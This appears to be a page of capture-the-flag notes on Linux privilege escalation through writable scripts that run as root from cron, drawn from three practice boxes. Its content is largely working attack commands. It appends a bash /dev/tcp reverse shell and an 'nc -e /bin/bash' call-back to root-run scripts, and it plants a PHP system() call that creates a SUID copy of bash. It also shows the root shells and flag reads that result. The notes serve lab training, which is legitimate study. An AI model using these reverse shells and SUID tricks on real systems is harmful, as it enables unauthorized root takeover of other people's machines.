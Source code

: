 ```yaml
---
layout: default
title: Writable Script
parent: Cron
nav_order: 2
---
```


# Writable Script

---

## /bin/bash Reverse Shell

Enumerate user _funny_ home directory and locate a _.backup.sh_ that is creating a backup of _/var/www/html_ every 1 minute.

```bash
joe@funbox:/home/funny$ ls -la
ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Nov 16 03:36 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html

```

_.backup.sh_ is world writeable so we can edit this script to give us a reverse shell as _root_ user.

```bash
joe@funbox:/home/funny$ echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1
```

After a couple minutes we get a reverse shell as _root_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 41312
bash: cannot set terminal process group (4896): Inappropriate ioctl for device
bash: no job control in this shell
root@funbox:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# whoami
whoami
root
root@funbox:~# cat /root/proof.txt
cat /root/proof.txt
3d96************************
```

## Netcat Reverse Shell

The script _.trash_old_ should execute with root permissions.

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Nov 18 22:03 .
drwxr-xr-x 5 penguin penguin   4096 Nov 18 21:59 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       662 Nov 18 22:03 .trash_old
-rw-r----- 1 penguin penguin     32 Aug 25  2020 user3.txt

```

Assuming this is probably being executed by _root_ on a cron job, let's edit and add a command that creates a _rootbash_ script with root privileges.

```bash
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

nc -e /bin/bash 192.168.45.217 9001

exit 0


```

After a minute we get a reverse shell as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.202.79] 37926
whoami
root

```

## Copy /bin/bash to Privesc

Enumerate Processes and see _root_ is running _/bin/sh_ to run PHP on an internal site and the directory _/var/tmp/sv/_

```bash
ps aux | grep -i 'root' --color=auto
```

![proc](../../../assets/images/ctfs/proving_grounds/solstice/proc.png)

We know from checking SUID directories that _/var/tmp/sv_ has the SUID bit set.

We have full read/write to _/var/tmp/sv/index.php_

![index](../../../assets/images/ctfs/proving_grounds/solstice/index.png)

Edit _index.php_ to execute a PHP system command that generates a root shell by copying _/bin/bash_ to _/var/tmp/bash_

```bash
<?php
echo "You've been pwned!!!!";
system("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
?>
```

![nano](../../../assets/images/ctfs/proving_grounds/solstice/nano.png)

We now need to _curl_ the internally accessible web service running on port 57 in order to execute _index.php_ and generate our
malicious _/var/tmp/bash_ binary.

![curl](../../../assets/images/ctfs/proving_grounds/solstice/curl.png)

Navigate to _/var/tmp_ to see our exploit.

![var_tmp](../../../assets/images/ctfs/proving_grounds/solstice/var_tmp.png)

Execute our malicious _bash_ binary with the _-p_ flag to persist root privileges

![bash](../../../assets/images/ctfs/proving_grounds/solstice/bash.png)
